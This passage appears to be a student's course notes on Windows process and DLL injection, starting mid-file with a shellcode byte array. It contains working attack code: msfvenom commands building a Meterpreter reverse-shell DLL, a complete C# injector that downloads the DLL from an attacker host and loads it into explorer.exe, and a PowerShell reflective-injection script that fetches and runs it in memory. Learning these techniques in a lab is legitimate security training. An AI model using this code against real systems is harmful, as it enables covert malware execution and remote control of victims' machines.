                0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
                0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
                0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
                0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
                0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
                0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
                0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
                0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
                0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
                0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
                0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
                0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
                0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
                0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
                0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
                0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
                0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
                0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
                0x1c,0x05,0x92,0x1b };
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr,
           IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}


```

need to make changes into nt function above.


# DLL injection

Sometimes we wantto inject an entire dll inside a code

# DLL injection theory

LoadlIbrary is how we need to run. Hoever we cant force a remote process to do it just like that
so instead we will need to trick. The server.

 Recall that when calling CreateRemoteThread, the fourth argument is the start address
of the function run in the new thread and the fifth argument is the memory address of a buffer
containing arguments for that function

he idea is to resolve the address of LoadLibraryA inside the remote process and invoke it while
supplying the name of the DLL we want to load. If the address of LoadLibraryA is given as the
fourth argument to CreateRemoteThread, it will be invoked when we call CreateRemoteThread.

In order to supply the name of the DLL to LoadLibraryA, we must allocate a buffer inside the
remote process and copy the name and path of the DLL into it. The address of this buffer can
then be given as the fifth argument to CreateRemoteThread, after which it will be used with
LoadLibrary.

but  the DLL must be written in C or
C++ and must be unmanaged. The managed C#-based DLL we have been working with so far will
not work because we can not load a managed DLL into an unmanaged process.

DLLs normally contain APIs that are called after the DLL is loaded. In order to call these
APIs, an application would first have to “resolve” their names to memory addresses through the
use of GetProcAddress. Since GetProcAddress cannot resolve an API in a remote process, we
must craft our malicious DLL in a non-standard way

structure of a DLL

```
BOOL WINAPI DllMain(
 _In_ HINSTANCE hinstDLL,
 _In_ DWORD fdwReason,
 _In_ LPVOID lpvReserved
);
```
unmanaged code

```
BOOL APIENTRY DllMain( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
 switch (ul_reason_for_call)
 {
 case DLL_PROCESS_ATTACH:
 case DLL_THREAD_ATTACH:
 case DLL_THREAD_DETACH:
 case DLL_PROCESS_DETACH:
 break;
 }
 return TRUE;
}
```

# DLL injection with C#

lets try and generate a dll with msfvenom

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https
LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll


└─$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=4444 EXIT_FUNC=THREAD -f dll -o /var/www/html/met.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 652 bytes
Final size of dll file: 8704 bytes
Saved as: /var/www/html/met.dll

```

We will create a chash program that will fetch dll from attackers server. and then we wll write the DLL to disk since LoadLibrary only accepts files present on disk.

NOt able to inject into notepad

able to inject calc-

```
└─# msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o /var/www/html/calc.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Final size of dll file: 8704 bytes
Saved as: /var/www/html/calc.dll

```

```C#
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace download_dll
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
       processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
       dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
       byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
       lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
       dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
       SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);
        static void Main(string[] args)
        {
            String dir =
           Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";
            WebClient wc = new WebClient();
            wc.DownloadFile("http://10.10.6.12/met.dll", dllName);
            Process[] expProc = Process.GetProcessesByName("explorer");
            Console.WriteLine("Length of the array is : ", (uint) expProc.Length);
            int pid = expProc[0].Id;
            Console.WriteLine(pid);
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr,
           Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
           addr, 0, IntPtr.Zero);
        }
    }
}
```

### 5.2.2.1 Exercise
1. Recreate the DLL injection technique and inject a Meterpreter DLL into explorer.exe from a 
Jscript file using DotNetToJscript.

# Reflective DLL Injection Theory

Since we do not need to rely on GetProcAddress and want to avoid detection, we are only 
interested in the memory mapping of the DLL. Reflective DLL injection parses the relevant fields 
of the DLL’s Portable Executable260 (PE) file format and maps the contents into memory.

In order to implement reflective DLL injection, we could write custom code to essentially recreate 
and improve upon the functionality of LoadLibrary. Since the inner workings of the code and the 
details of the PE file format are beyond the scope of this module, we will instead reuse existing 
code to execute these techniques.

# reflective dll injection in powershell

We’ll reuse the PowerShell reflective DLL injection code (Invoke-ReflectivePEInjection261) 
developed by the security researchers Joe Bialek and Matt Graeber

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

Not running -

```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://10.10.6.12/met.dll')
$procid = (Get-Process -Name explorer).Id

Import-Module "C:\Users\misthios\codeplay\pen300\book\chapter5\invoke_reflective_injection.ps1" 

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

### 5.3.2.1 Exercises
1. Use Invoke-ReflectivePEInjection to launch a Meterpreter DLL into a remote process and 
obtain a reverse shell. Note that Invoke-ReflectivePEInjection.ps1 is in the C:\Tools folder on 
the Windows 10 development VM.
2. Copy Invoke-ReflectivePEInjection to your Kali Apache web server and create a small 
PowerShell download script that downloads and executes it directly from memory.


